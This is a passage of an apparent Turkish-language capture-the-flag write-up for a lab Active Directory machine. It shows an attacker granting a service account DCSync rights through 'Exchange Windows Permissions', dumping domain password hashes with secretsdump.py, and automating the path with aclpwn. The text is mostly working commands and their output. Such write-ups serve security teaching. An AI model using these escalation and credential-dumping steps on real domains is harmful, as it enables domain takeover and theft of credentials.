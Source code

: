Bunu Forest üzerinde çalıştırdığımda hata vermeden geri dönüyor:

```
*Evil-WinRM* PS C:\> Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

Ve kullanıcıyı yeni grupta görebiliyorum:

```
*Evil-WinRM* PS C:\> net group 'Exchange Windows Permissions'
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members
-------------------------------------------------------------------------------
svc-alfresco             
The command completed successfully.
```

Ayrıca secretsdump.py dosyasını çalıştırabilir ve hash'leri alabilirim:

```
root@kali# secretsdump.py svc-alfresco:s3rvice@10.10.10.161
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...[snip]...
[*] Cleaning up... 
```


### Alternative Tool: Aclpwn

Bu exploit işlemini otomatikleştirecek bir araç var, [aclpwn](https://github.com/fox-it/aclpwn.py). Çalıştırdığımda, ona başlamak istediğim kullanıcıyı ve ne elde etmek istediğimi ( domain access) iletiyorum, o da yolları arıyor, bana hangi yolu kullanacağımı soruyor ve sonra çalıştırıyor:

```
root@kali# aclpwn -f svc-alfresco -t htb.local --domain htb.local --server 10.10.10.161
Please supply the password or LM:NTLM hashes of the account you are escalating from: 
[!] Unsupported operation: GenericAll on EXCH01.HTB.LOCAL (Computer)
[-] Invalid path, skipping
[+] Path found!
Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[!] Unsupported operation: GetChanges on HTB.LOCAL (Domain)
[-] Invalid path, skipping
[+] Path found!
Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
Please choose a path [0-1] 1
```